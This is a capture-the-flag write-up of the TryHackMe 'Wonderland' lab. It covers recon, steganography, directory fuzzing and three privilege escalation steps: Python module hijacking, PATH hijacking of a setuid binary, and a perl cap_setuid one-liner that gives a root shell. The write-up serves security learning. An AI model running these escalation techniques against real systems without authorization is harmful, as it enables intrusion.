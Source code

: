```yaml
---
layout: default
title : Wonderland - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[Wonderland](https://tryhackme.com/room/wonderland) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/Wonderland$ nmap -sC -sV 10.10.252.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 10:28 EST
Nmap scan report for 10.10.252.9
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

Goin to the web page gets us only a `jpeg` image, let's download it and see what can we do with it :

```
bvr0n@kali:~/CTF/THM/Wonderland$ wget http://10.10.252.9/img/white_rabbit_1.jpg
bvr0n@kali:~/CTF/THM/Wonderland$ steghide extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
```
Turns out, there is a files hidden inside that says this :

```
follow the r a b b i t
```
Didn't understand at first, but when i brute forced directoris i get the idea :

```bash
bvr0n@kali:~/CTF/THM/Wonderland$ ffuf -c -u http://10.10.252.9/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
```

The files was pointing to a path in the browser :

```
http://10.10.252.9/r/a/b/b/i/t/
```

Once i checked the code source i found a hidden text, hidding alice's `SSH` creds :

```
alice:**********************************************
```

## Privilege Escalation :

After some enumeration, i found out that the `/root/` is accessible by everyone but read permission was not given on the other hand execute permission was present, so we can get the `user.txt`

* #### Rabbit User :

in Alice home directory we can find a script that basically import the random module.

So, we can create a file named random.py in our current working directory that executes `/bin/bash` This way the python file should be loaded instead of the "real" random module, and in turn give us a shell as the rabbit user.
`random.py` :
```python 
import os

os.system("/bin/bash")
```
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

* #### Hatter User :

In `/home/rabbit` we can see a setuid binary, after examining the file, we can see that `date` is getting executed without pecifying an absolute path :

```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

We can abuse this by exporting our own `$PATH` and providing a fake `date` script that will give us a shell with the user :

```
rabbit@wonderland:/tmp$ cat date 
#!/bin/bash
/bin/bash
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ whoami
hatter
```
Inside his directory we can find his ssh credentials :

```
hatter@wonderland:/home/hatter$ cat password.txt 
****************************
```

* #### Root :

After some enumeration, linpeas showed something intresting :

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Looks like `perl` have this capability `cap_setuid+ep` and that we can abuse, [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) :

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami; id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](bvr0n.github.io/)

<br>
